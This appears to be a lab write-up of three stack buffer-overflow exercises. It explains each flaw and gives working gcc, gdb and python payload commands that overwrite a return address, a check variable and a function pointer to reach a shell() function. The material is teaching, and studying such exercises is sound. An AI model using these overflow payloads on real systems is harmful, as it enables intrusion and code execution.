









# BOF1
## Interpret the attack:


### Vulnerability:
The `gets()` function reads input without checking the length, which can lead to a **buffer overflow** vulnerability.
### Exploitation:
Overflow the array in `vuln()` to overwrite the return address and jump to `secretFunc()`.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof1.o in gdb
    ```
    gdb bof1.o
    ```
3. Once you load out bof1.out in gdb, use the disassemble command to display the assembly code for a secretFunc() memory region
   
4. The secretFunc() memory region is `0x0804846b`. Now, we can try attack to this point by running file and passing value to array[200]:
    ```
    echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.o
    ```
    
5. Continue by add the variables a,b,1,2,... to the end of bof1.out, this will lead to buffer over flow
    ```
    echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.o 123
    ```
    
---
# BOF2
## Interpret the attack:


### Vulnerability:
The fgets() function reads `45` bytes into a buffer of `40` bytes, allowing **overflow**.
### Exploitation:
Overflow the buffer to modify the check variable.
Change check from `0x04030201` to `0xdeadbeef`, triggering the winning condition.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof2.c -o bof2.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof2.o in gdb
    ```
    gdb bof2.o
    ```
3. Lets try to pass 44 byte to print out this statement `You are on the right way!`
    ```
    echo $(python -c "print('a'*40 + '\x01\x02\x03\x02')") | ./bof2.o   
    ```
    
4. Now change the passing variable to meet the goal
    ```
    echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.o   
    ```
    
---
# BOF3
## Interpret the attack:


### Vulnerability:
The `fgets()` function reads `133` bytes into a buffer of `128` bytes, causing a buffer overflow.
The overflow can modify the function pointer `func()`.
### Exploitation:
Overflow `buf` and overwrite the function pointer `func` to point to the `shell()` function.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof2.o in gdb
    ```
    gdb bof3.o
    ```
3. Func is a pointer which is pointing to `sup()` address. So to override and change this pointer to `shell()` address we have to find the address of shell function
    
4. The attack 
    ```
    echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.o
    ```
    